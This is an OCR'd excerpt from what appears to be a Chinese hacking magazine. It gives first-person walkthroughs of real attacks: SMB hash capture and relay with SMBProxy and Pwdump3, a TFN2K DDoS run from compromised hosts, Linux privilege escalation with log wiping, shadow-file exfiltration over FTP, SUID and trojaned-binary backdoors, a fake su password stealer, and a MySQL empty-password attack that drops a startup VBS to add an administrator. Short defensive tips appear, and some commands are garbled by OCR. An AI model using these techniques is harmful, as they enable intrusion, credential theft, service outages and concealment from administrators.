Copyright 2001 : Sir Dystic, Cult of the Dead Cow
Send complaints, ideas and donations to sirdystic@cultdeadcow.com
Using local adapter index 2, PCI Bus Master Adapter
Local IP address added to interface 2
Bound to port 139 on address 202.101.100.20
Connection from 202.101.100.10:1915
Request type: Session Request 72 bytes
Source name: VODSER <00>
Target name: *SMBSERVER <20>
Setting target name to source name and source name to 'CDC4EVER'
Response: Positive Session Response 4 bytes
Request type: Session Message 137 bytes
SMB_COM_NEGOTIATE
Response: Session Message 115 bytes
Challenge (8 bytes): 56B2E032480574EF
Request type: Session Message 290 bytes
SMB_COM_SESSION_SETUP_ANDX
Password lengths: 24 24
Case insensitive password: H25EE5DA7659D4DB6273B2CE9AF9FB6EA91F2843A5B2354 （得到LM散列）
```

# 黑客入门实例精讲




```
C:\> GetHashes Password
F24CHH685BBF5C53FD34FB5FD95QC2BH335F4G2AB4466  （得到NTUM散列）
Username    "Administrator"
Domain      "JIANGCHAO"
OS          "Windows 2000 2195"
Lanman type "Windows 2000 5.0"
nt          ""
Response    Session Message 154 bytes
OS          "Windows 5.0"
Lanman type "Windows 2000 LAN Manager"
Domain      "WORKGROUP"
Password hash written to disk
Connected?
Bound to port 139 on address 202.101.100.20 relaying for host VODSER 202.101.100.30
```

然后选择从“LC文件导入”破解，接下来就是等待了。这里因为我破解的是密码散列文件，所以用不了多长时间就会破解出来。
这种SMB会话劫持之网页陷阱入侵的技术我运用了很多次，如果对方受骗，破解的成功率会达到90%以上。除此之外，还可利用Cain+Sniffer来实现劫持技术。

好了，现在我们已截取了SMB会话，可以用LC4来破解密码散列了。
密码散列一般格式为：

```
Username\Domain:::::Case sensitive password:Case sensitive password:Challenge
```

我按照这个格式把得到的散列导入一个文本文件，然后用LC4来破解。如图1所示。


最后就可用LC4来破解HASH了。我们打开LC4，如图2所示。

SMBPROXY 就是用这个原理，因为PWDUMP截取的文件后面一排就是NTLM HASH，这里的HASH直接进行DES加密一发送一验证，省去了明文口令加密那一步。所以，也就不需要获取明文口令了。

### 防止此类入侵

- 1.禁止SMB服务，并且使用Lever3认证。
总之，验证了一句网络安全名言：开放最少的服务=最大的安全性。
- 2.使用权限低的帐号，定期查看日志。
- 3.注意网页的诱惑，不要轻易点击别人发来的来历不明的网页。

## 用任意密码入侵Win2k系统

这次我要讲的是利用SMBPROXY这个工具，可在使用IPC$连接时随便输入一个密码也可以连接，不要不信啊，这可是真的！

### 一 测试环境

- 202.101.100.20（要进行IPC$连接的目标机器）
- 202.101.100.30（自己的机器）
这两个机器可以是Win2000的任何版本。

### 二 测试工具

Pwdump3，它是抓取NT、WIN2k用户密码文档的工具（光盘中有收录）。
用法：pwdump3 ip_address [filename] [username]
其中，“ip_address”指远程主机的ip地址；“filename”指保存HASH密码档的文件名（如果不输入，其输出将显示在屏幕上）；“username”是在远程主机上的有ADMIN权限的用户。
输入回车后，程序将提示你输入用户密码，密码确认，就会将远程主机上的所有用户密码档最后保存到你所指定的文件中。

### 三 具体过程

首先我们要得到对方的NTLMHASH信息（这里有很多方法，也可结合上篇文章《一次SMB会话劫持之网页陷阱入侵》来得到密码散列信息，这样就可不用暴力破解，直接连接对方机器）。这里，我先在对方机器建立了一个用户来抓取HASH。我就不讲怎么去建立用户了，相信大家都会做！
首先，我们在CMD下看一下自己的IP（图1）。



好了，现在开始演示连接过程，之前我在对方机器里建立了一个System权限的用户——jiangchao，然后用Pwdump3抓取了用户HASH密码散列。

```
C:\pwdump3.exe 202.101.100.20 hash.txt jiangchao
```

如图2所示，已经抓取成功了！



下一步该用SMBPROXY跟对方机器进行连接。

> 使用SMBPROXY之前，先停掉Server，否则会出现错误。

```
c:\net stop server
```

然后用SMBPROXY连接，SMBPROXY使用方法如下（图3）：
smbproxy "Cs <ip of server> -f <file of hashes>



这个窗口不要关闭，接下来再打开一个CMD窗口，对202.101.100.20进行IPC$任意口令连接。

```
C:\net use k: \\202.101.100.20\c$ 232145 /user : administrator
```

命令成功完成！

这里我映射对方的C盘在我的电脑里显示为K盘，里面的232145是随意密码，你也可输入别的，连接所用的用户必须是 System 权限的，而且.hash.txt 里已经有他的密码散列值了。

到我的电脑里看看吧，已经成功映射了，那么大家会问为什么输入随意密码就可进行连接呢？问得好，下面我来讲一下原理：

如果202.101.100.30要访问202.101.100.20共享资源，202.101.100.30会发送当前登陆的用户名和密码，然后202.101.100.20进行验证，这时202.101.100.20 会随机产生 8 字节的 Challenge，送到202.101.100.30，202.101.100.30用明文口令对Challenge进行标准DES加密得到响应，并发往202.101.100.20，202.101.100.20从 SAM中获取202.101.100.30发送的用户名的LM Hash、NTLM Hash，计算出 DESKEY，并对前面发往A的挑战进行标准DES加密，如果双方比较结果一致，那么就算通过验证。如果这次验证无法成功，才会提醒用户输入用户名和密码，也就是我们常见的验证框。再用同样的方式进行下一轮的加密验证。

## 破解4台之DDoS攻击实录

写本文的目的是提醒大家在防火墙建设的技术上多下些功夫，因为现在的防火墙都不能很好地防御DDoS攻击（所谓的DDoS攻击，就是分布式拒绝服务攻击方式，可4-5人同时某个网站进行攻击，在短时间内造成网络瘫痪的危险攻击）。

### 一、DDoS 攻击的表现方式

好了，下面我介绍一下 DDoS攻击的具体表现方式：

- 1.制造高流量的无用数据，造成网络堵塞，使受害者主机无法正常和外界通讯。
- 2.利用受害主机所提供服务中处理数据上的缺陷，发送畸形数据引发服务程序出错，大量占用系统资源，使主机处于假死状态导致死机。可以说拒绝服务攻击是发展很快的黑客攻击技术。从古老的“死亡之 Ping”（即c:\ping -l 65500 -t xx.xx.xx.xx)无限制向主机发送65500大小的数据包，这种攻击在早期只要有 5 个使用宽带的用户就可在 5 分钟内攻击瘫痪一个Windows2000 Server，但现在的服务器都有抵御这种类型攻击的免疫了，再进一步就是 Smurf攻击了。它通过使用回复地址为受害网络的广播地址的 ICMP 应答请求（ping）数据包来，严

## 黑客入门与进阶实例精讲

密受害主机的方式进行。为防止黑客利用你的网络攻击他人，关闭外部路由器或防火墙的广播地址特性，这种攻击现在对某个服务器仍然好使。

繁衍到现在最流行的就属 DDoS 攻击了，它的特点是大量数据、多方位的攻击技术。本文就是利用 DDos 的实战攻击。

相信大家都听说过2002年7月10日8时到7月10日15时，某省公安厅为了挑战网络高手突破4堵防火墙而举行了悬赏活动。这的确很吸引人。虽然最后没人能入侵进去，但最终 DDoS 被攻击瘫痪（4堵防火墙也没挡住这次攻击，可见 DDoS 攻击的可怕）！下图是 DDoS 的攻击示意图。



### 二、攻击过程

攻击目标：

```
A(IP Address): xx.xx.xx.01
B(IP Address): xx.xx.xx.02
C(IP Address): xx.xx.xx.03
```

自7月8日早9：00起，第一个IP 段的IP已经开通。不过这个IP的主机很可能没有装防火墙，因为装了防火墙的情况，Ping 的结果一般都会是“timed out”，而且这台主机的TTL=128，基本确定它是一个Win2000系统。

```
telnet xx.xx.xx.01:80
```

然后输入 GET，接着输入2次回车，上面出现了IIS5.0字样。基本没错，是个Win2k系统。然后用X-Scan扫描之后，发现对方只开了80端口。而且还有一些没有利用价值的frontpage等CGI漏洞，这怎么入侵呢？先把结果记录下来，再看看其他3个IP，哈！都能打开（看来其他3个IP已经开通）。于是我 Ping 了这3个IP地址，结果他们都装了防火墙，Ping 的结果都是“timed out”。

接下来我对这3个地址进行扫描，最后也没发现什么好的结果，这时已经过了半小时了。我的目标又转移到了A的IP，怎么？它也安了防火墙？Ping 也不通。既然入侵不了，也不能浪费这次机会，决定用 DDoS 技术来攻击瘫痪你。

首先，我下载了一个 tfn2k.tgz 的 DDoS 攻击程序（光盘中有收录）。TFN 被认为是当今功能最强、性能最好的 DDoS 攻击工具，几乎不可能被察觉。先把它传到我的个人主页空间：

```
c:\ftp jiangchao.51.net
Connected to jiangchao.51.net.
220 u2.51.net FTP server ready.
User (jiangchao.51.net:(none)): kenan
331 Password required for kenan
Password:
230 kenan login in please
ftp>
```

接下来我把 tfn2k.tgz 也传上去：

```
ftp> put d:\tfn2k.tgz
200 PORT command successful.
150 Opening ASCII mode data connection for redftp.tgz
226-WARNING! 39 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
226 Transfer complete.
```


# 黑客入门实例精讲

```
ftp:26400 bytes sent in 0.00Seconds 26400.00Kbytes/sec.
```

OK! 上传成功！！ 闪人

```
ftp>bye
```

然后再登陆我的肉鸡：

```
c:\telnet xx.xx.xx.xx
login:xxxx
Passwd:
```

我的肉鸡上没有开21端口，不能传送。那么，就从肉鸡里FTP到我的主页空间里去下载tfn2k.tgz吧！

```
#ftp jiangchao.51.net
ftp>get tfn2k.tgz

200 PORT command successful.
150 Opening ASCII mode data connection for redftp.tgz.
226-WARNING! 39 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
ftp:26400 bytes sent in 0.00Seconds 26400.00Kbytes/sec.
ftp>bye
#tar zxvf tfn2k.tgz
#cd tfn2k
```

如果你不是Linux或BSD系统，请修改src下的Makefile文件。

```
#make
```

make过程中会让你输入一个密码，8—32位的。我这里输入我的名字“jiangchao”，将来tfn和td联系时需要这个密码。
make完成后你会发现多了两个可执行文件：tfn和td。然后在xx.xx.xx.xx上执行：

```
#./td
```

注意一定要有root权限啊！否则无法运行。终于完成了准备工作，开始攻击！我现在xx.xx.xx.xx的/tfn2k/目录下，还需要编辑一个文件列表：

```
#vi hosts.txt
```

在文件里输入：xx.xx.xx.xx\|\|，当然如果你有多个肉鸡，可一行写一个，幸亏当时我的肉鸡较多，否则还不知道怎么攻下4个防火墙呢！
这就是控制文件列表。好了，我连接一下看看，下面的命令意思是：在hosts.txt文件中的机器上执行远程命令“m k d i r jiangchao”，其中“-c”表示执行远程命令。执行完这个命令就会在那3台机器上都建立jiangchao目录。当然，你可随便执行其他命令。

```
#./tfn -f hosts.txt -c "mkdir jiangchao"

Protocol    : random
Source IP   : random
Client input: list
Command     : execute remote command
Password verification: (这里我们输入密码 jiangchao )
Sending out packets:
```

好了，完成。
然后我们在xx.xx.xx.xx上执行：

```
#find / -name jiangchao -Cpint
```

找到了！说明我们攻击成功……下面开始正式攻击，你可以在xx.xx.xx.xx上运行ntop，查看流量怎么样：

```
#./ntop
```

然后使用ICMP攻击：

```
#./tfn -f hosts.txt -C 6 -C 1c xx.xx.xx.xx
```

其中“x”是我们攻击的目标

HackerXFiles 55

然后重启，接着测试。

SYN/TCP 攻击:

```
#./tfn -C\ hosts.txt -C 5 -C 1 xx.xx.xx.xx -C p
```

UDP 攻击:

```
#./tfn -C\ hosts.txt -C c 4 -C 1 xx.xx.xx.xx
```

ICMP/TCP/UDP 轮流攻击:

```
#./tfn -C\ hosts.txt -C c 8 -C 1 xx.xx.xx.xx
```

如果想停止攻击:

```
#./tfn -C\ host.txt -C c 0
```

接下来，我就开始攻击。10分钟后，当我再打开他的主页时，已经已打不开了，说明攻击成功！4堵防火墙全部瘫痪。
既然 DDoS 的威力如此惊人，那我们怎么做出有效的防御呢？

## 三、DDoS 攻击的防御措施

由于 DDoS 攻击具有隐蔽性，因此到目前为止，还没有发现对 DDoS 攻击行之有效的解决方法。所以我们要加强安全防范意识，提高网络系统的安全性。可采取的安全防御措施有以下几种：

- 1. 应及早发现系统易受攻击的漏洞，及时安装系统补丁程序，对一些重要的信息建立和完善备份机制。对一些特别权限帐号的密码设置要谨慎。通过这样的举措可把攻击者的可乘之机降低到最小。
- 2. 在网络管理方面，要时常检查系统的物理环境，禁止那些不必要的网络服务，确保输出的包受到正确限制。精确检测系统配置信息，并注意检查每天的安全日志。
- 3. 利用网络安全设备（例如：防火墙、尤其是可防范 DDoS 攻击的防火墙）来加固网络的安全性，培植安全规则，过滤掉所有可能的伪造数据包。
- 4. 和你的网络服务提供商协调工作，让他们帮助你实现路由的访问控制和对带宽总量的限制。
- 5. 当你是潜在的 DDoS 攻击受害者，发现你的计算机被攻击者用做主控端和代理端时，不能因为你的系统暂时没有受到损害而掉以轻心，攻击者已发现你的系统漏洞，这对你的系统是一个很大的威胁。所以，一旦发现系统中存在 DDoS 攻击工具软件，要及时清除它，以免留下后患。

据网络安全专家研究，网络上黑客一星期发起的攻击超过 3000-4000 次，这说明我们的网络环境依然险恶！


很多人都对 Win2k 的入侵和做后门方法得心应手，但还不够，只有把 Linux 分析透彻才算厉害。因为 Windows 系列天生就是作为个人 PC 用的，怎么能跟 Linux 比呢？好了，我这次利用一台 Linux 机器做渗透，看你能从中学多少命令和知识。

测试机器：Linux (202.101.100.6)
本机系统：Win2k

# 黑客入门实例精讲

前几天有个网友给我了一台 Linux 机器，但他只得到了一个普通用户帐号，说搞不定这台机器，让我去试试，哈！我就喜欢干别人搞不定的东西。

于是，我用他得到的普通用户做了个连接。

```
C:\>telnet 202.101.100.6
Red Flag Linux release 2.0
Kernel 2.2.16-22smp on a 2-processor i686
login: conan
Password:
```

```
$ w
/*先看看管理员在不在。不然你想被抓啊*/
21:12pm up 92 days, 20:12, 1 user
load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
conan pts/2 xx.xx.xx.xx 21:12pm 0.00s 0.08s 0.00s -bash
/*还好，就我一个人，现在准备把这个用户的权限提升为root权限*/
/*去hack.co.za找linux release 2.0的本地溢出exploit*/
```

```
$ cat > tisheng1.c
/*然后粘贴源代码*/
```

```
$ gcc -o tisheng1 tisheng1.c
/*然后去编译它*/
In file included from /usr/include/asm/user.h:5,
from /usr/include/linux/user.h:1,
from :1:
/usr/include/linux/prctl.h:22: warning: PETRACE_SYSCALL: redefined
/usr/include/sys/prctl.h:103: warning:
```

```
this is the location of the previous def inition.
/*好象出错了*/
```

```
$ ./tisheng1
attached
execl: Operation not permitted.
/*恩！果然不好使，没关系我再来*/
```

于是我又找了一个溢出代码，做第2次提升，步骤跟上次的一样。

```
$ ./tisheng2
attached
bash#
/*哈哈！这回出现#了，终于有root权限了*/
bash# rm tisheng1
bash# rm tisheng2
bash# rm tisheng1.c
bash# rm tisheng2.c
/*快点删除刚才留下的东西，被发现就不好了*/
```

```
bash# ls
.../*对!*/
bash# cd /var/run
/*先把自己隐身吧*/
```

```
bash# cat utmp | grep -v "xx.xx.xx.xx" > temp
/*xx.xx.xx.xx是我的IP*/
bash# mv temp utmp
/*把自己的IP移除*/
```

```
bash# w
/*再来看看有没有我了*/
11:31am up 119 days, 21:56, 0 users,
load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
/*恩！已经把自己删除了*/
bash# cd /
```

HackerXFiles 57

# 黑客入门实例精讲

```
bash#cd /etc
bash#cat /etc/passwd
/* 查看密码文件，由于文件太多我就不一一写出 */

bash# cat /etc/shadow
/* 在看看密码的影子 shadow 文件 */
root:DIGEW8jem6Nel:11561:0:99999:7::
1:-1:134550524
webmaster:K1DkEHyrbj0sgtLWzZndMUDU3vYA
laZo/:11425:0:99999:7:-1:-1:1345
admin:6XZKMGhfQzTjc:11428:0:99999
7:-1:-1:134550540
conan:X5Yc.wfZn.gaY:11459:0:99999
7::134550516
bbs.U6Millitkbsekq:11463:0:99999:7:-1:-
1:134549476
```

```
bash#ftp jiangchao.com
ftp>put shadow
/* 把 shadow 文件传到自己的空间，有时间去破解 */
ftp>bye
221 Byebye!
```

```
Bash #
bash#cp /bin/bash /usr/lib/.jc
bash#chown root /usr/lib/ .jc
bash#chmod 777 /usr/lib/ .jc
/* 留个后门，以后登陆肉鸡后在执行/usr/lib/ .jc 就有 root 权限了 */
bash#vi /etc/passwd /*编辑passwd文件内的不显眼的系统内置帐号，加个shell*/
admin:x:3:4:adm:/var/adm:/bin/bash
```

```
bash#passwd admin
/* 给编辑完的帐号修改密码 */
bash#cd /bin
bash#mv w .w
/* 其实就是把 ADM 这个帐号从 W、WHO、FINGER 中剥离出来，从而用这几个命令看不到 ADM*/
```

```
bash#mv who .who
bash#mv finger .finger
bash#echo .w | grep -v "adm">w
bash#echo .who | grep -v "adm">who
bash#echo .finger | grep -v "adm">finger
```

```
bash#chmod .777 .w
bash#chmod .777 .who
bash#chmod .777 .finger
bash#cd /usr/man /*改变一下工作目录*/
```

```
bash#lynx -dump IP/sniffer.tar.gz>jc.tar.gz
/* 把嗅探器的名字改成jc.tar.gz
bash# tar -zxvf jc.tar.gz
/* 解压嗅探器 */
bash# cd jc
/* 进入嗅探器的目录 */
bash#./configure && make
/* 编译 */
creating cache ./config.cache
checking for gcc... gcc
./configure: test: -gt: unary operator expected
bash# ./sniffit -p 23 -t 202.101.100.6 &
bash# Supported ethernet device found. (eth0)
Sniffit is up and running.
```

接下来看看嗅探器的记录是否好使。在自己的 Win2k 机器上登陆肉鸡：

```
c:\telnet 202.101.100.6 23

进入后切换到肉鸡的 Shell 模式：
```

```
bash# more xx.xx.xx.1142-*.*.*.5:23
user:conan
password:35478d
/* 登陆的用户名和密码，都完整地记录下来了*/
```

# 黑客入门实例精讲

```bash
bash# ./shift -p 22 -u root -p 1 8
bash# ./shift -p 21 -u root -p 1 8
/*好了，成功了，现在监听23和21端口来偷取密码*/
/* 好了，工作都做完了，剩下的就是清除历史记录和等待了 */
bash# rm -f bash_history
bash# cd /home/cohan
bash# rm -f .bash_history
bash# exit
exit
```

还要上学，所以过段时间我打开电脑登陆肉鸡时，发现了嗅探结果，可嗅探到的都是些普通用户，对我没什么帮助，我确定 root 都是用本地登陆的，所以嗅探不到。哎！倒霉死了，那怎么办呢？

于是我在网上瞎逛，看看有没有什么好东西，无意中找到了一个可替换原来SU的脚本文件，看了一下，太好了，正好对我有用。脚本如下：

```bash
#!/bin/sh
echo "Password:"
stty -echo;read PASSWD;stty echo
echo "PASSWD" > /usr/man/man1/.pr
echo "su incorrect password"
rm -fr /bin/su
mv /usr/man/man1/.s /bin/su
```

马上登陆肉鸡下后门：

```bash
$ /usr/lib/.//. /c
/*用上次的SUID提升权限*/
# cd /bin
/*进入SU所在的目录*/
# mv su /usr/man/man1/s
/*把系统的SU改名为S，存到/usr/man/man1/下*/
```

```bash
#vi su
/*把假SU用VI编辑后，存成SU放在/PIN下*/
#chmod 777 /bin
#chmod 777 /s
#chmod 777 .m
#chmod 777 .my
#chmod 777 /usr/man/man1/
```

一切做完后，再次等待，希望下次不会让我失望，几天后又登上服务器，/usr/man/man1/下已经有密码了，真是苍天不负有心人啊。再看密码，天啊，E5*okYea……这种密码真吓人，幸亏我没有拿 John 破解 shadow。最后用得到的 root 密码登陆：

```
C:>telnet 202.101.100.6
Red Flag Linux release:2.0
Kernel:2.2.16-22smp on a i686 processor
login: root
Password:
/* 期待以久真正的 shell 出现了 */
```

从这次较全面的人侵案例来看，大家可学到很多Linux下的命令，从而对Linux的人侵能有个全方位的了解。

# 网络安全入门——黑客入门实例精讲

在网络上，很多系统（Win2k、Linux）都安装了MY SQL数据库。的确，这个数据库非常受大家欢迎，但这么受欢迎的数据库安装完毕后有个漏洞——就是数据库的Root帐号密码为空，现在网络上很多机器都有这类毛病。

我曾经扫描了一个C类地址，竟发现数据库Root密码为空的机器多达89台，因为MY SQL不像MS SQL数据库那样可以调用 XP_Shell 来执行 Shell 命令，所以很多人找到这样的漏洞也不会利用。下面我就介绍一下，如何利用 Win2k 下 Root 密码为空的数据库：

- 1. 用空口令连接到对方的 MYSQL

如果你机器上安装了 MYSQL，就可用如下命令：

```
#mysql -u root -h 192.168.0.1
```

连接成功后，来看看服务器中有些什么数据库：

```
mysql>show databases
```

MYSQL 默认安装时会有 MYSQL、TEST 这两个数据库。

- 2. 进入数据库

```
mysql>use test
```

进入 test 后，看看里面有什么数据：

```
mysql>show tables
```

- 3. 哈！什么也没有，那么我就在里面建立一个新的表：

```
mysql>create table jc (abc text)
```

这里我创建了一个表名为 jc、字段名为 abc 的表格。

- 4. 在表格中插入以下代码：

```
mysql>insert into a values ("set wshshell=createobject (""w script.shell"" )");
mysql>insert into a values ("a=wshshell.run (""cmd.exe /c net user Admin 123 /add"",0)" );
mysql>insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup Administrators admin/add"",0)" );
```



这里我写了一个添加 Admin、密码为 123 的用户的命令。

- 5. 看看有没有输入错误的地方

```
mysql>select * from a
```

- 6. 输出表为一个 VBS 的脚本文件

```
mysql>select * from a into outfile "c:\\docume~1\\alluse~1\\[开始]菜单\\程序\\启动\\ceshi.vbs";
```

我们把表中的内容输入到启动组中，是一个 VBS 的脚本文件！注意“\”符号。

现在，所有工作都完成了，下面就是等机器重新启动，机器重启后，ceshi.vbs 也会跟着启动，到时他机器里就有用户为 Admin、密码为 123 的超级用户了。

## 防御：

对于这种攻击的防御，最简单、安全的方法就是给 MY SQL 的 Root 用户添加口令。方法如下：

本地设置密码：mysql  uroot  password 密码

远程设置密码：grant select,insert,update,delete on *.* to root@”%” identified by “密码”如下图所示。


60 黑客X档案


## 交换式环境下的会话劫持技术

看了这么多的经典入侵技术后，我们再来看看在内网（LAN）里的黑客技术。大家都看过前面的《一次SMB会话劫持之网页陷阱入侵》吧，我这次来向大家介绍另一种会话劫持技术——在交换式网络环境下的会话劫持技术。那么这种劫持技术是怎么回事呢？请往下看。

### 原理

在同一个交换机下通过进行ARP欺骗，让两台机器通信的数据包留经攻击者的机器，然后转包，最后进行会话劫持。
我们这里就是在这个网络进行劫持的：

